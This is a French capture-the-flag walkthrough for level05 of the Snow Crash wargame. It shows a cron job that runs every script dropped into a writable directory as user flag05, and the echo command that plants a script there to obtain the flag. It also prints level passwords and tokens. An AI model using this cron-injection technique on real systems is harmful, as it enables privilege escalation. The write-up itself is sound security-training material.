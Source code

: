 # Level05: You have new mail.

> login:password -> *`level05:ne2searoevaevoem4ov4ar8ap`*
```
:~$ su level05
Password:ne2searoevaevoem4ov4ar8ap
```
---

```
:~$ pwd
/home/user/level05
```

```
:~$ ls -la
...
```

Le Home est vide mais on a peu être averti qu'un mail nous attends:

```
:~$ ssh level05@localhost -p 4242
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15
level05@localhost's password:
You have new mail.
```

On va donc essayer de voir ce mail

```
:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Ce mail nous informe qu'une tache cron est planifié et qu'elle execute le script `/usr/sbin/openarenaserver` toutes les 2min sur le user flag05

```
:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

On remarque alors que le script exécute tous les fichiers présents dans `/opt/openarenaserver/` avec `bash`, puis les supprime. Il suffit alors d'y ajouter notre propre script qui exécutera alors la commande `getflag` et conservera son résultat dans un dossier qui lui ne se supprimera pas, par exemple `/tmp/flag`.

```
:~$ echo "getflag > /tmp/flag05" > /opt/openarenaserver/getflag
```

On patiente 2min que cron puisse lancer le script

```
:~$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

Le flag nous permet de se connecter au level06
`level06:viuaaale9huek52boumoomioc`